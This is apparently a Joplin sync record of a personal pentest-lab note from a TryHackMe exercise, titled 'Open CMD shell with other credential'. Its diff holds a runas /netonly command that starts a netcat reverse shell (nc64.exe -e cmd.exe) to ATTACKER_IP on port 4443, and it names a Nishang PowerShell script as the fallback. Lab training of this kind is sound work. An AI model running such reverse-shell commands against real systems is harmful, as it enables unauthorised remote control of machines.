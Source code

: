 id: e04451abd6ab424eaba1bc2e6e48b671
parent_id: 
item_type: 1
item_id: 6895cc172f90401891fc30852930a6f2
item_updated_time: 1657617563687
title_diff: "[{\"diffs\":[[1,\"1a. Open CMD shell with other credential\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":40}]"
body_diff: "[{\"diffs\":[[1,\"> runas /netonly /user:ZA.TRYHACKME.COM\\\\\\\\t1\\\\_leonard.summers \\\"c:\\\\\\\\tools\\\\\\\\\nc64.exe -e cmd.exe ATTACKER\\\\_IP 4443\\\"\\\n\\\nThis is if there is a netcat tool available. Else, we will have to rely on a powershell invoke via Nishang script\\\n\\\n> To-be-edited\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":242}]"
metadata_diff: {"new":{"id":"6895cc172f90401891fc30852930a6f2","parent_id":"0c2846bd3b824b53bfc522d03d0bb20b","latitude":"0.00000000","longitude":"0.00000000","altitude":"0.0000","author":"","source_url":"","is_todo":0,"todo_due":0,"todo_completed":0,"source":"joplin-desktop","source_application":"net.cozic.joplin-desktop","application_data":"","order":0,"markup_language":1,"is_shared":0,"share_id":"","conflict_original_id":"","master_key_id":""},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-07-12T09:23:19.275Z
created_time: 2022-07-12T09:23:19.275Z
type_: 13
